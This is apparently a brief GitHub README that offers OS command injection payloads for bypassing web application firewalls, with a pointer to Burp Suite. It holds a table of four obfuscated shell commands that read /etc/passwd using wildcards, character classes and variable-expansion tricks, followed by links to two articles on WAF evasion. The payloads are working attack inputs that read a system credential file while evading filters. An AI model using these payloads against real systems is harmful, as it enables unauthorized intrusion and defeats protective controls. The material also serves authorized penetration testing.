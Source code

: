 # Bypass-WAF-OS-command-injection
In todays Web Penetration Testing you must have good injection payloads to fasten your engagements.<br>
You can use this on BurpSuite.
<br>
<table border="1">
    <tr>
        <th>OS Command Injection Bypassing WAF </th>
    </tr>
    <tr>
        <td>1. cat /e*c/p*s*d</td>
    </tr>
    <tr>
        <td>2. cat /e[tv]c/p[aeiou]*d</td>
    </tr>
    <tr>
        <td>3. cat /e??/p????d</td>
    </tr>
    <tr>
        <td>4. cat /et${FOO:-c}/pa${BAR:-sswd}</td>
    </tr>
</table>

Another actual good reference:<br>
1. https://medium.com/@themiddleblue/waf-evasion-techniques-718026d693d8<br>
2. https://infosecwriteups.com/alibaba-cloud-waf-command-injection-bypass-via-wildcard-payload-in-all-1-462-built-in-rule-set-989b75db6e2f

